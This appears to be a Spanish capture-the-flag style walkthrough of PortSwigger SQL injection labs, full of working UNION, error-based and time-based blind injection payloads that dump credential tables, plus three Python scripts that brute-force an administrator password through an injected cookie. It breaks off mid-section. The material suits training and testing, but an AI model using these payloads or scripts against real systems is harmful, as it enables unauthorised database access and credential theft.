


# SQL Injection

## <mark style="color:purple;">SQL Injection</mark>

URL = https://portswigger.net/web-security/all-labs

### Lab: SQL Injection vulnerability in WHERE clause allowing retrieval of hidden data

Si le damos a una de las etiquetas del filtro vemos que en la URL hace una comparacion, por lo que si hacemos lo siguiente filtrariamos todo lo que hay en la base de datos que es el proposito...

```
URL = https://0aac001703bff4ba80fdd598003e00c1.web-security-academy.net/filter?category=Lifestyle' or 1=1-- -
```

Lo que hemos añadido es lo siguiente...

```mysql
' or 1=1-- -
```

Que quedaria visto desde la terminal de `mysql` de la siguiente manera...

```mysql
select * from products where 'lifestyle' and released = 1;
```

```mysql
select * from products where 'input' or 1=1-- -' and released = 1;
```

<figure><figcaption></figcaption></figure>

### Lab: SQL Injection vulnerability allowing login bypass

En este caso vemos una pagina web con un login y lo que tenemos es que pasarlo utilizando SQL Injection, haremos lo siguiente...

```
username = admin' or 1=1-- -
password = <LO_QUE_SEA>
```

Lo que añado en el `username` es...

```mysql
' or 1=1-- -
```

o tambien haciendo lo siguiente sirve, ya que estamos comanetando la comparativa de la autenticacion de la `password`...

```mysql
administrator'-- -
```

Se ve de esta manera desde la consola de `mysql`...

```mysql
select username,password from users where username = 'administrator' and password = '%s'
```

Ya que es una logica que siempre se va a cumplir `1=1` y despues lo comentamos utilizando `-- -` u otro signo que sea para comentar la comparativa de la contraseña, respecto a la `'` lo ponemos para que cierre cualquier logica que este haciendo `mysql`...

Con esto comprobamos que somos `admin` automaticamente ya que petamos la logica de `mysql`, pero donde pone (admin) puedes poner lo que quieras, es por poner una palabra...

URL (Payloads genericos para este tipo de casos) = https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

<figure><figcaption></figcaption></figure>

### Lab: SQL Injection UNION attack, determining the number of columns returned by the query

En este caso para determinar el numero de columnas que tiene la tabla en la base de datos mediante la URL seria de la siguiente manera...

```mysql
' order by 3-- -
```

Con esto lo que estamos haciendo es finalizar con la `'` el input que haya antes y lo de despues es que estamos haciendo que nos marque esos 3 campos, pero si hubiera 4 se pone hasta el numero 4 y asi sucesivamente, de primeras se tiene que probar con la siguiente injeccion...

```mysql
' order by 100-- -
```

Si sale un error como `Error internal server` o algun otro tipo de error del servidor o de `mysql` significa que funciona pero que no tiene esos campos, por lo que habria que ir probando poco a poco hasta que nos devuelva un `200 OK` como que dimos en el clavo de los campos que tiene, una vez sabiendo los campos que tiene hacemos lo siguiente (Pongamos que solo tiene 2 columnas el servidor)

```mysql
' order by 2-- -
```

Ahora sabiendo los campos que tiene, tendremos que representar las columnas para que se nos muestre la informacion...

```mysql
' union select 1,2-- -
```

o

```mysql
' union select NULL,NULL-- -
```

Esto utlimo se pone cuando la URL o el servidor no admite numeros para este tipo de inyecciones, por lo que se le pone un `NULL` para que no haya "nada" pero que aun asi te lo muestre...

De forma representada en una base de datos de `mysql` seria de la siguiente manera...

```mysql
select table1,table2 from users where table1 = 'input' union select NULL,NULL;-- -';
```

o para determinal una version o base de datos...

```mysql
select table1,table2 from users where table1 = 'input' union select version(),database();-- -';
```

Con esto ya sabriamos las columnas que tiene y estaria hecho

### Lab: SQL Injection UNION attack, finding a columns containing text

En este caso el objetivo es ponernos la cadena 'mFdsaD' en uno de los campos de las columnas (Entendiendo que ya sabemos que hay 3 columnas o campos...) tienes que ir probando sucesivamente hasta que en uno de los campos te deje inyectarle eso y con eso sabremos que ese campo en concreto es vulnerable a inyecciones...

```mysql
' union select NULL,'mFdsaD',NULL-- -
```

Con esto ya habriamos logrado con exito inyectar esa palabra en uno de los campos siendo 1 solo el unico que deja ser inyectable...

Sabiendo que es el campo 2 el que se puede inyectar probariamos ya diferentes cosas como por ejemplo listar la version...

```mysql
' union select NULL,@@version,NULL-- -
```

### Lab: SQL Injection UNION attack, retrieving data from other tables

Como el objetivo de esta otra practica es averiguar el user y password del usuario admin, haremos lo siguiente...

Sabemos que con esto podemos saber las `databases` que hay en `mysql`...

```mysql
' union select 1,schema_name from information_schema.schemata-- -
```

o

```mysql
' union select 1,group_concat(schema_name) from information_schema.schemata-- -
```

Pero si no fuera por que te lo limitara la pagina, se puede ir 1 por 1...

```mysql
' union select 1,schema_name from information_schema.schemata limit 1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 0,1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 1,1-- -
```

```mysql
' union select 1,schema_name from information_schema.schemata limit 3,1-- -
```

Y se van poniendo numeros sucesivamente dependiendo de la base de datos que quieras mostrar, para ello tendrias que ir probando varios numeros hasta que encuentres una interesante...

Con esto listamos la base de datos existentes sabiendo que hay 2 columnas...

```mysql
' union select schema_name,NULL from information_schema.schemata-- - 

#Listar bases de datos
```

Una vez sabiendo que y visualizando la bases de datos que nos aparecen veremos uno llamado `public` por lo que ahora veremos las tablas que se encuentran dentro de `public`...

```mysql
' union select table_name,NULL from information_schema.tables where table_schema='public'-- - 

#Listar tablas
```

Hecho esto nos apareceran 2, `users` y `production`...

```mysql
' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users'-- - 

#Listar columnas
```

REPRESENTATIVO:

```mysql
' union select column_name,NULL from information_schema.columns where table_schema='database' and table_name='table'-- -
```

Con esto listamos las columnas que se encuentran dentro de la tabla `users`...

```mysql
' union select group_concat(username,':',password),NULL from users-- -
```

o

```mysql
' union select 'username',NULL from users-- -

' union select 'password',NULL from users-- -
```

o

```mysql
' union select username||':'||password,NULL from users-- -
```

o

```mysql
' union select group_concat(username,0x3a,password),NULL from users-- -
```

Este ultimo ejemplo es por si no admitiera concatenar la informacion de las columnas con separaciones de `:` se podria poner los `:` pero de manera hexadecimal y su valor seria...

```
: = 3A ==> : = 0x3a
```

Esto se puede mirar en la terminal y filtrando por los `:` poniendo...

```shell
man ascii

#Dentro de esa interfaz
/:
```

o

```shell
man ascii | grep ':'
```

Pero si queremos ver el contenido de la tabla `users` pero esa tabla no se encuentra en la base de datos donde estamos inyectando el codigo de `mysql` tendriamos que conocer el nombre de esa base de datos y hacer lo siguiente...

```mysql
' union select group_concat(username,':',password),NULL from database.users-- -
```

o

```mysql
' union select 'username',NULL from database.users-- -
```

o

```mysql
' union select concat(username,':',password),NULL from database.users-- -
```

### Lab: SQL Injection UNION attack, retrieving multiple values in a single column

Aqui nos dice casi lo mismo de antes, que saquemos las credenciales listando las columnas para registrarnos en la pagina web...

```mysql
' union select schema_name,NULL from information_schema.schemata-- -
```

```mysql
' union select table_name,NULL from information_schema.tables where table_schema='public'-- -
```

```mysql
' union select concat(username,':',password),NULL from users-- -
```

o

```mysql
' union select username||':'||password,NULL from users-- -
```

### Lab: SQL Injection attack, querying the database type and version on Oracle

URL (Oracle SQL Injection) = https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md

Al ser en `Oracle` cambian algunos detalles a la hora de hacer este tipo de inyecciones...

Nos va a dar `ERROR` si ponemos lo siguiente ya que nos estamos enfrentando ante un `Oracle`...

```mysql
' union select NULL,NULL-- -
```

Pero como estamos en `Oracle` para que nos funcione eso de aqui arriba, tendriamos que hacer lo siguiente...

```mysql
' union select NULL,NULL from dual-- -
```

Eso de `from dual` es una regla que se tiene que cumplir al ser `Oracle` y para hacer las otras inyecciones como lo que nos piden aqui que es ver la version y base de datos de esa pagina web hariamos lo siguiente...

Si nos vamos a la ayuda que nos da de la misma pagina de los creadores de `PortSwigger` encontrariamos esto de `Oracle`...

```
SELECT banner FROM v$version
```

Por lo que tendriamos que cambiar uno de los `NULL` por `banner` y donde pone `v$version` lo cambiaremos por `dual`...

```mysql
' union select NULL,banner from v$version-- -
```

Info:

```
|CORE 11.2.0.2.0 Production|
|NLSRTL Version 11.2.0.2.0 - Production|
|Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production|
|PL/SQL Release 11.2.0.2.0 - Production|
|TNS for Linux: Version 11.2.0.2.0 - Production|
```

### # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

En este caso tenemos que saber la version de la base de datos de `Microsoft` sabiendo que hay 2 columnas todavia haremos lo siguiente...

Guiandonos de la chuleta de la propia pagina en la seccion de `Microsoft` pondria algo tal que asi...

```
SELECT @@version
```

Por lo que hariamos lo siguiente...

```mysql
' union select NULL,@@version-- -
```

Y con esto ya habriamos resuelto esta parte...

Info:

```
8.0.36-0ubuntu0.20.04.1
```

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

Aqui nos pide que saquemos el usuario y contraseña de la base de datos de esta pagina, por lo que haremos lo siguiente en la URL...

```mysql
' union select NULL,NULL-- -
```

Con esto sabemos que no es nada de `Oracle` ni nada parecido...

```mysql
' union select NULL,schema_name from information_schema.schemata-- -
```

Veremos que nos aparece una llamada `public` por lo que haremos lo siguiente...

```mysql
' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```

Y nos aparecera lo siguiente...

```
users_veujmf
```

Por lo que elegimos esa misma...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users_veujmf'-- -
```

Y nos aparecera lo siguiente...

```
|email|
|password_noopnn|
|username_fwnbqa|
```

En este caso vamos hacer los dos a la vez concatenando comandos para elegir el de `password_noopnn` y el de `username_fwnbqa`...

```mysql
' union select NULL,concat(password_noopnn,':',username_fwnbqa) from users_veujmf-- -
```

Y estaremos viendo entre los usuarios y contraseñas la de `admin`, por lo que nos registramos y ya lo habriamos hecho...

```
|do57nju65zautaj4ps8r:carlos|
|jervglfw9ptwhzpsng8c:administrator|
|53pu6vfp0qtsdig3ccrt:wiener|
```

### Lab: SQL injection attack, listing the database contents on Oracle

URL = https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

En este caso tenemos que logearnos como `administradores` en esta pagina web...

Al ser `Oracle` ya cambia la cosa en algunos aspectos a la hora de poder ver una base de datos o una tabla...

```mysql
' union select NULL,NULL from dual-- -
```

Para saber que es a `Oracle` a los que nos estamos enfrentando, por lo que ahora vamos a pasar a ver las bases de datos que se encuentran en esta pagina...

```mysql
' union select NULL,table_name from all_tables-- -
```

Ahi mostraria todas las tablas que hay, pero si solo queremos filtrar por las tablas que sean con privilegios altos, hariamos lo siguiente...

```mysql
' union select NULL,owner from all_tables-- -
```

Y aparecerian estas...

```
|APEX_040000|
|CTXSYS|
|MDSYS|
|PETER|
|SYS|
|SYSTEM|
|XDB|
```

La mas curiosa es la de `PETER`, si queremos filtrar por esa tabla en concreto, lo que haremos sera...

```mysql
' union select NULL,table_name from all_tables where owner='PETER'-- -
```

Con esto lo que hacemos es que nos muestre las tablas o columnas en las que `PETER` tiene privilegios altos indicandole el `owner`...

```
|PRODUCTS|
|USERS_NADZKF|
```

Sabiendo que `USERS_NADZKF` es la que queremos ver, para ver las columnas que contiene esa tabla, lo que haremos sera lo siguiente...

```mysql
' union select NULL,column_name from all_tab_columns where table_name='USERS_NADZKF'-- -
```

Y aparecera lo siguiente...

```
|EMAIL|
|PASSWORD_MJWVFY|
|USERNAME_UGMMPB|
```

Y para poder ver el contenido del `username` y del `password` haremos lo siguiente...

```mysql
' union select NULL,PASSWORD_MJWVFY||':'||USERNAME_UGMMPB from USERS_NADZKF-- -
```

Veremos esto...

```
|2nwbzbzmt1znmwdtb02r:wiener|
|gl4x0f8gfbciozsmeqk4:administrator|
|re1ubcoda6pcoz8176aq:carlos|
```

Por lo que nos logeamos con el de `admin` y ya estaria...

<figure><figcaption></figcaption></figure>

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

En este caso te dice que tienes que rellenar todas las columnas de `NULL`, por lo que haremos lo siguiente...

Veremos cuantas columnas tiene...

```mysql
' order by 3-- -
```

Con esto sabemos que si ponemos `4` ya nos devuelve un error, por lo que son `3`...

```mysql
' union select NULL,NULL,NULL-- -
```

Y si ponemos eso, ya habriamos rellenado las 3 columnas que hay de `NULL` por lo que ya lo tendriamos resuelto...

### Lab: SQL injection UNION attack, finding a column containing text

En este caso lo que hay que hacer es poner la cadena `qnUgvU` en la columna que sea inyectable, para ver eso tendremos que ver lo siguiente...

```mysql
' union select NULL,schema_name,NULL from information_schema.schemata-- -
```

Con esto sabemos que el `NULL` del medio es inyectable, por lo que haremos lo siguiente...

```mysql
' union select NULL,'qnUgvU',NULL-- -
```

Y hecho esto ya lo habriamos resuelto...

### Lab: SQL injection UNION attack, retrieving data from other tables

Aqui lo que necesitamos es obtener la informacion de la tabla de `usuarios` para ver las credenciales de todos los `usuarios` incluyendo el de `admin` para poder registrarnos con el mismo...

```mysql
' union select NULL,NULL-- -
```

Con esto sabemos que no es nada de `Oracle` ni nada parecido...

```mysql
' union select NULL,schema_name from information_schema.schemata-- -
```

Veremos que nos aparece una llamada `public` por lo que haremos lo siguiente...

```mysql
' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```

Y nos aparecera lo siguiente...

```
users
```

Por lo que haremos lo siguiente...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```

Aparecera lo siguiente...

```
|email|
|password|
|username|
```

```mysql
' union select NULL,username||':'||password from users-- -
```

```
|wiener:bwrtkxibjnvzvno51nfu|
|administrator:u7ve13tyofvcu2nvnq06|
carlos:yzoxtf8gpjq7uwyrnxsd
```

Con esto ya nos podremos registrar como `admin` en la pagina web...

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

En esta practica tendremos que hacer basicamente lo mismo que en las anteriores, conseguir las credenciales completas de todos los usuarios y entre ellas registrarnos como `admin`...

Sabiendo que sigue la misma mecanica y que las bases de datos y tablas son iguales, para comprobarlo haremos lo siguiente...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```

Con esto veremos su contenido para ahora mirar lo que contiene cada columna...

```
|email|
|password|
|username|
```

Para poder ver su contenido haremos lo siguiente...

```mysql
' union select NULL,username||':'||password from users-- -
```

```
administrator:hiz32i5u8t7wiuoy9zl4
|carlos:g0089e41680ml73ivdpy|
|wiener:ksdios9ully0hqld2gy6|
```

Y con esto ya podriamos registrarnos como `admin` en la pagina web...

### Lab: Blind SQL injection with conditional responses

En esta practica sera mas a ciegas, ya que no aparecera lo que estas metiendo representado en la pagina como tal, como en las anteriores practicas y tendremos que conseguir las credenciales de `admin` para logearnos...

Lo que nos dice el ejercicio es que se puede inyectar desde la coockie, para ello utilizaremos BurpSuit...

Dentro de la peticion de BurpSuit se puede hacer de mcuhas manera, la mas optima es automatizarlo con un script de `Python` o con el propio `Intruder` de BurpSuit para hacer fuerza bruta a la contraseña, pero antes de hacer todo esto hay que explicar el funcionamiento del mismo...

Como sabemos que el campo inyectable es la `coockie` en especifico el campo de `TrackingId` aparecera unas letras seguidas unas de otras, al final es donde se empieza a poner la inyeccion de la `'` por lo que el mecanismo seria de la siguiente manera...

```mysql
' and 1=1-- -;
```

o

```mysql
' and '1'='1;
```

Esas 2 situaciones anteriores hacen el mismo efecto, ya que dentro de la terminal de `mysql` se veria de la siguiente manera...

```mysql
select * from products where TrackingId='algo' and 1=1-- -';
```

o

```mysql
select * from products where TrackingId='algo' and '1'='1';
```

Lo que estamos haciendo aqui es concatenar comandos que en este caso se puede, por lo que estamos haciendo un ataque a ciegas por lo que tendremos que ir probando letra por letra si estamos haciendo bien la inyeccion o automatizarlo, pero antes de hacer eso para saber que vamos por buen camino, dentro de la pagina hay una palabra llamada `Welcome back!` que cuando hacemos mal la inyeccion desaparece, pero cuando la hacemos bien, se mantiene visible, por lo que aprovecharemos eso para ir viendo como vamos, para hacer esas comprobaciones haremos lo siguiente...

Ahora lo que vamos hacer es ir probando poco a poco, la informacion que estamos acertando y la que no...

```mysql
' and (select 'a')='a;
```

Como eso siempre va a ser igual deberiamos de visualizar la palabra que mencione anteriormente, si le pusieramos una `b` u otra letra que no sea la `a` en este caso, desapareceria ya que la comparacion que estamos haciendo no coincide...

```mysql
' and (select 'a' from users limit 1)='a;
```

Como sabemos que hay una tabla llamada `users` y que estamos haciendo la comparacion que siempre va a ser cierta, seguiremos viendo la palabra, por lo que lo estaremos haciendo bien (Ya que dentro de la tabla mencionada tiene por ahi una `a`)...

```mysql
' and (select 'a' from users where username='administrator')='a;
```

o

```mysql
' and (select substring(username,1,1) from users where username='administrator')='a;
```

A lo que se refiere con `username,1,1` esta haciendo una comparacion de la palabra `administrator` con la primera letra de la palabra `a`, que en este caso se cumple ya que es la `a`...

o

```mysql
' and (select substring(username,2,1) from users where username='administrator')='d;
```

Sabemos que el usuario que estamos intentando adivinar su contraseña es la del `administrator` por eso hacemos eso de ahi arriba, pero lo podemos hacer de mas maneras distintas...

> TODO ESTO ES POR QUE EN ESTA PRACTICA SE ESTA PRACTICANDO LO QUE SE CONOCE COMO `CONDITIONAL ERROR` POR LO QUE TENDREMOS QUE IR PROBANDO LETRA POR LETRA PARA IR SABEINDO CUANDO DA UN ERROR Y CUANDO NO (CUANDO NO DE EL ERROR SIGNFICA QUE LA LETRA ESTA...)

Ahora si queremos saber la contraseña de este usuario, haremos lo siguiente...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='a;
```

Donde pone `password` se le pone el nombre de la tabla que contenga las contraseñas y tendremos que ir probando letra por letra con comparaciones las que te van dando fallos y las que no, pero para no hacerlo de forma manual, utilizaremos el `intruder`...

Todo el `request` nos lo llevamos al `intruder` utilizando `^I`, dentro de el, seleccionaremos la seccion en la que pone `a` ubicado en la ultima linea del codigo...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='<SELECCIONADO>;
```

Y le daremos al boton de `add §` para que se nos coloquen esos 2 simbolos a los lados de la siguiente manera...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='§a§;
```

Vamos hacer un ataque de `Sniper` asi que lo dejamos por defecto, seguidamente vamos a la pestaña donde pone `payload` para cargar un diccionario, en nuestro caso tendremos que sustituir la `a` por todas las letras del abecedario y numeros del `0-9` para que nos saque la contraseña a fuerza bruta, cuando tengamos el diccionario algo tal que asi...

```
a
b
c
d
...
0
1
2
3
...
```

Lo cargaremos en la pestaña de `payload` donde pone `Payload Settings [Simple List]` le damos al boton `Load...` para cargar ese diccionario `.txt` y una vez hecho eso le damos al boton `Start attack` para iniciar el ataque de fuerza bruta, nos tendremos que fijar en los codigos de respuesta para ir sacando la contraseña poco a poco, por ejemplo aparecera algo ral que asi...

```
1              a             200             11409
```

```
7              e             200             11470 
```

Por lo que el que se repetira mucho es el codigo `11409` ese significa que dio error, por lo que tendremos que fijarnos solo en los codigos `11470` y asi ir cogiendo las letaras 1 por 1, hasta montar la contraseña, pero esto seria con la funcion `Intruder`, si lo queremos hacer con un script de `python` seria de la siguiente manera...

Antes de hacer el script para que funcione instalaremos lo siguiente...

```shell
pip3 install pwntools
```

Una vez echo eso tendremos que saber de cuantos caracteres se compone la contraseña del usuario, lo haremos de la siguiente manera...

Con esto lo que estamos haciendo es que decimos que la contraseña es mayor a `5` caracteres y como tiene mas de `5` caracteres sera correcto por lo que el `Welcome back!` seguira ahi...

```mysql
' and (select 'a' from users where username='administrator' and length(password)>5)='a;
```

En este caso nos pasamos poniendo que si es mayor de `50` caracteres, por lo que probaremos con un numero menor...

```mysql
' and (select 'a' from users where username='administrator' and length(password)>50)='a;
```

Y si finalmente hacemos lo siguiente veremos que la contraseña tendra `20` caracteres, ya que si ponemos `21` nos da error, por lo que `20` seria el correcto y tambien se puede comprobar poniendo un `>=`....

```mysql
' and (select 'a' from users where username='administrator' and length(password)>20)='a;
```

o

```mysql
' and (select 'a' from users where username='administrator' and length(password)>=20)='a;
```

Una vez sabiendo todo esto el script quedaria de la siguiente manera...

Yo lo llame `SQLI_Conditional_Response.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a8e00f5049e3d15802e5d13003c004f.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "BvroHPKR23vLwHzo' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                                'session': 'QPWCx6VEaIuh5N4noRLLTg5sziXnpfQ5'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if "Welcome back!" in r.text:
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

Donde pone `TrackingId` tendremos que poner el nuestro que aparece en la captura de BurpSuit hasta antes de la `'`, donde pone `session` igual, lo que nos aparezca a nosotros y por ultimo donde pone `main_url` lo que contiene nuestro `host` en el `request` capturado añadiendole `https://`...

```shell
python3 SQLI_Conditional_Response.py
```

Info:

```
[◢] Fuerza bruta: BvroHPKR23vLwHzo' and (select substring(password,20,1) from users where username='administrator')='b
[<] Password: 8jumk2e52dxl45m51lgb
```

Una vez hecho todo esto tendriamos la contraseña, la probamos y ya estaria hecha...

### Lab: Blind SQL injection with conditional errors

En esta parctica lo que debemos de hacer es parecido a la anterior pero en este caso hay que jugar con los errores de la pagina, por lo que nos tendremos que guiar por eso...

Utilizaremos el BurpSuit para capturar la peticion de la pagina y llevandolo al `Repeater` con `^R` podremos ir probando hay inyecciones de comandos...

```mysql
'||(select '')||';
```

Si lo dejamos asi nos dara error por lo que nos da a entender que tiene que ser otro tipo de base de datos la que se esta manejando...

```mysql
'||(select '' from dual)||';
```

Si ponemos eso si nos va a ir, por lo que estamos trabajando con un `Oracle`, ahora para seguir viendo si vamos bien haremos diferentes comprobaciones de si estamos acertando la tabla o no...

```mysql
'||(select '' from users where rownum=1)||';
```

Esto nos da un `200 OK` por lo que la tabla `users` existe de por si y no nos esta dando ningun fallo, asi que vamos bien...

```mysql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||';
```

Lo que estamos haciendo aqui es que primero va a comprobar si la linea `from users where username='administrator'` es correcta (Si existe el usuario `administrator`) y si es asi hace la accion de lo siguiente que es `select case when (1=1) then to_char[1/0] else '' end` basicamente como existe y como `1=1` siempre va hacer la operacion de `1/0` como eso siempre va a ser un error nos dara el error `500`, pero si ponemos lo siguiente...

```mysql
'||(select case when (2=1) then to_char(1/0) else '' end from users where username='administrator')||';
```

Vera que `2=1` no es igual y hara `else ''` por lo que nos dara un `200 OK` a todo esto sabiendo que el usuario `administrator` es el correcto, por que de lo contrario pasaria lo siguiente...

```mysql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrat')||';
```

Si lo dejamos en ese usuario que no existe cuando lo compruebe vera el servidor que no existe, por lo que no hara la siguiente comprobacion `select case when (1=1) then to_char[1/0] else '' end` y dentro de esta comprobacion da igual lo que cambiemos siempre reciviremos un `200 OK` por lo que poniendo el usuario bien y jugando con la logica de errores, podremos adivinar la contraseña...

Ahora adivinaremos la longitud de la contraseña, guiandonos por la practica anterior que tenia 20 caracteres, esta sera igual y lo comprobamos de la siguiente manera...

```mysql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrat' and length(password)>=20)||';
```

Nos deberia de salir un error `500`, esto significa que lo estamos haciendo bien y que la contraseña si tiene 20 caracteres, ya que lo primero que comprueba es que esto se cumpla `from users where username='administrat' and length(password)>=20` para seguir haciendo lo demas `select case when (1=1) then to_char[1/0] else '' end`...

```mysql
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrat')||';
```

Ahora lo que estamos haciendo es hacer la comprobacion para saber si estamos llendo bien a la hora de adivinar la letra, en este caso, estamos haciendo que la primera inicial del username `administrator` es igual a la letra `a` en este caso si es cierto, por lo que nos tendria que devolver un error `500` y tenemos que utilizar `substr` para `Oracle` por que en otros seria `substring`...

Ahora sabiendo que eso funciona pondremos lo siguiente para que en nuestro script de `python` nos descubra la contarseña...

```mysql
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||';
```

Ahora vamos a crear el script de `python3` recopilando un poco del anterior, quedaria de la siguiente manera...

Yo llame al script `SQLI_Conditional_Error.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0e00a00372e9a1808908f3003d00c7.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "JcghQJrdTU2JxTFw'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                                'session': 'uIgDP6wFHLAewh2oBh1xLh2Zz9tv5WI3'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if r.status_code == 500:        #Comparacion con el codifo de estado de la pagina
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

En este caso cambiaremos la comparacion de `Welcome back!` por `r.status_code == 500` para que haga la comparacion del codigo de respuesta y ya lo demas que se ajuste a nuestro `request`

```shell
python3 SQLI_Conditional_Error.py
```

Info:

```
[┌] Fuerza bruta: JcghQJrdTU2JxTFw'||(select case when substr(password,20,1)='9' then to_char(1/0) else '' end from users where username='administrator')||'
[O] Password: sbwt8m6hn5m9igp9cta9
```

Una vez hecho esto ya lo tendriamos, nos logeamos y listo...

### Lab: Visible error-based SQL injection

En esta practica hay que hacer algo parecido a lo anterior, en este caso tenemos que sacar la contraseña del `admin` con inyeccion de SQL en una base de datos manejada por `PostgreSQL` y dependiendo de los errores que te de sera una cosa u otra...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='a;
```

Para sacar la contraseña lo automatizaremos...

Yo llame a este archivo `.py` `SQLI_Conditional_Error_PostgreSQL.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0e00a00372e9a1808908f3003d00c7.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "JcghQJrdTU2JxTFw' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                                'session': 'uIgDP6wFHLAewh2oBh1xLh2Zz9tv5WI3'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if r.status_code == 500:        #Comparacion con el codifo de estado de la pagina
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

```shell
python3 SQLI_Conditional_Error_PostgreSQL.py
```

Y esto nos daria la contraseña del `admin`, nos registramos y ya estaria listo...

### Lab: Blind SQL injection with time delays

Lo que hay que hacer aqui basicamente es que la web tarde en responder 10 segundos, para ello lo que haremos sera una inyeccion de `mysql` con tiempos de espera (`sleep`), por lo que hariamos lo siguiente...

Antes de nada vemos que se esta trabajando con una base de datos `PostgreSQL` por lo que se utiliza de otra manera para mandar `sleep` aunque eso se puede ir viendo haciendo pruebas cuales funionan y cuales no...

```mysql
'||pg_sleep(10)-- -;
```

Esto hay que ubicarlo donde pone `TrackingId` ya que es la zona inyectable...

Con esto lo que hacemos es que tarde en respondernos la pagina 10 segundos, por lo que ya estaria hecho...

### Lab: Blind SQL injection with time delays and information retrieval

En esta practica lo que hay que hacer es sacar la contraseña del `admin` mediante `sleep` jugando con esas opciones, como si fuera un `true/false`...

```mysql
'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Lo que estamos haciendo aqui es que cuando se cumpla la comparacion `1=1` (Que es siempre) se tardara la pagina en respondernos 10 segundos, pero de lo contrario (`else`) tardara 0 segundos, entendiendo que existe la tabla `users` con el usuario `administrator`, con esto podemos comprobar que todo se cumple correctamente...

```mysql
